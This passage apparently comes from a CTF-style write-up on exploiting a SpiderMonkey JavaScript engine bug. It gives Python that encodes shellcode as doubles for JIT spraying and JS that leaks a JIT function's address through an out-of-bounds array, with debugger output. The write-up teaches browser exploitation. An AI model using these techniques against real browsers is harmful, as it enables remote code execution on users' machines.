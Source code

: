 ```python
    cur_payload += cur
payloads.append(cur_payload.ljust(THRESHOLD, NOP) + JMP)

print(list(map(hex, struct.unpack('Q'*len(payloads), b''.join(payloads)))))
print(list(struct.unpack('d'*len(payloads), b''.join(payloads))))
```

(Within each 8 byte sequence we have to reserve 2 bytes for jumping to the next double, thus we only have 6 working bytes each, but that is not an issue.)

For (3), we can just write the function into the target address and inspect it with our puppet (treating it like a regular `Uint8Array`) -- recall that the allocated 8 bytes are right below the pointer itself, i.e. index 14 from our OOB array.

```js
  /* leak jit object address */
  target[1] = jit; // [0] will save our initial Uint8Array pointer
  target.from = 1;
  target.to = 14;
  target.swap();
  console.log(btoi(puppet).toString(16));
```

```js
// ...
To:

{
  "type": "double",
  "value": "0",
  "private": "0x0"
}
From:

/* JIT function that we swapped in */
{
  "type": "object",
  "address": "(JSObject*)0x3eef46462430", // <--
  // ...
  "reservedSlots": {
    "0": "2593",
    "1": "<LexicalEnvironment @ (JSObject*)0x3eef4643c040>",
    "2": "3.41880566842783e-310 / <private @ 0x3eef4645e290>",
    "3": "'jit' @ (JSAtom*)0x3eef464579c0"
  },
  // ...
}
fffe3eef46462430 // <-- logged output
```

The `fffe` is nothing but a standard `JSObject` tag, in this case we just zero out the two MSBs to obtain the raw pointer.

We thus have all our setup complete, and now we just need to (4) modify the JIT function pointer.
